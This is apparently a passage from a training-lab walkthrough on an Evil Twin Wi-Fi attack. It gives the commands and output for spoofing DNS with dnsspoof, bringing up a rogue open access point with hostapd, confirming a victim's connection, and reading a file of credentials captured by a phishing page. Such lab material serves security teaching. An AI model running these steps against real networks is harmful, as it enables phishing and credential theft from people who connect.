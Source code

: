 Once the DNS server is up and running, students need to open a new terminal tab. Here, students need to use `dnsspoof` to forward traffic to `wlan2`, which will host the Open-Network AP.

Code: shell

```shell
sudo dnsspoof -i wlan2
```

```
wifi@WiFiIntro:~$ sudo dnsspoof -i wlan2

dnsspoof: listening on wlan2 [udp dst port 53 and not src 192.168.0.1]
```

With Apache already running, students are now ready to launch the second access point.

Code: shell

```shell
sudo hostapd open.conf
```

```
wifi@WiFiIntro:~$ sudo hostapd open.conf

rfkill: Cannot open RFKILL control device
wlan2: interface state UNINITIALIZED->ENABLED
wlan2: AP-ENABLED 
```

In just a few seconds, students are likely to see the victim connect to the Evil Twin, which in turn redirects to the access point running on `wlan2`. To confirm this, students need to check the output from their DNS server, as well as the the output from the `wlan2` AP.

```
<SNIP>
rfkill: Cannot open RFKILL control device
wlan2: interface state UNINITIALIZED->ENABLED
wlan2: AP-ENABLED 
wlan2: STA d2:3f:7c:e4:cd:39 IEEE 802.11: authenticated
wlan2: STA d2:3f:7c:e4:cd:39 IEEE 802.11: associated (aid 1)
wlan2: AP-STA-CONNECTED d2:3f:7c:e4:cd:39
wlan2: STA d2:3f:7c:e4:cd:39 RADIUS: starting accounting session 380872776CADC17A
```

After confirming the connection, students need to read the contents of the `passes.lst` file, which contains the credentials gathered from the phishing site.

Code: shell

```shell
cat /var/www/html/passes.lst 
```

```
wifi@WiFiIntro:~$ cat /var/www/html/passes.lst 

{hidden}
```
